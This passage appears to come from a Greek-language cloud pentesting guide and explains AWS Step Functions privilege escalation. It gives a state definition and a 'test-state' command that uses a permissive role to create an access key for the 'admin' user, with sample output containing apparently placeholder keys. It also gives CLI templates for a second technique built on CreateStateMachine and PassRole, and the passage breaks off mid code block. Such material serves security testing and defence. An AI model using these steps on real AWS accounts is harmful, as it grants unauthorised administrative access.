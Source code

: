 Τα παρακάτω παραδείγματα δείχνουν πώς να δοκιμάσετε μια κατάσταση που δημιουργεί ένα access key για τον χρήστη **`admin`** εκμεταλλευόμενοι αυτές τις άδειες και έναν επιτρεπτικό ρόλο του περιβάλλοντος AWS. Αυτός ο επιτρεπτικός ρόλος θα πρέπει να έχει οποιαδήποτε πολιτική υψηλών προνομίων συσχετισμένη με αυτόν (για παράδειγμα **`arn:aws:iam::aws:policy/AdministratorAccess`**) που επιτρέπει στην κατάσταση να εκτελεί την ενέργεια **`iam:CreateAccessKey`**:

* **stateDefinition.json**:
```json
{
"Type": "Task",
"Parameters": {
"UserName": "admin"
},
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"End": true
}
```
* **Εντολή** που εκτελέστηκε για να πραγματοποιηθεί η privesc:

{% code overflow="wrap" %}
```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
"output": "{
\"AccessKey\":{
\"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
\"CreateDate\":\"2024-07-09T16:59:11Z\",
\"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
\"Status\":\"Active\",
\"UserName\":\"admin\"
}
}",
"status": "SUCCEEDED"
}
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη εκτέλεση και χειρισμός ροών εργασίας και πρόσβαση σε ευαίσθητους πόρους, που μπορεί να οδηγήσει σε σημαντικές παραβιάσεις ασφάλειας.

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

Ένας επιτιθέμενος με το **`states:CreateStateMachine`**& **`iam:PassRole`** θα μπορούσε να δημιουργήσει μια μηχανή καταστάσεων και να της παρέχει οποιονδήποτε ρόλο IAM, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε άλλες υπηρεσίες AWS με τις άδειες του ρόλου. Σε αντίθεση με την προηγούμενη τεχνική privesc (**`states:TestState`** & **`iam:PassRole`**), αυτή δεν εκτελείται από μόνη της, θα χρειαστεί επίσης να έχετε τις άδειες **`states:StartExecution`** ή **`states:StartSyncExecution`** (**`states:StartSyncExecution`** **δεν είναι διαθέσιμη για τυπικές ροές εργασίας**, **μόνο για εκφρασμένες μηχανές καταστάσεων**) προκειμένου να ξεκινήσετε και να εκτελέσετε τη μηχανή καταστάσεων.

{% code overflow="wrap" %}
```bash
# Create a state machine
aws states create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws states start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
```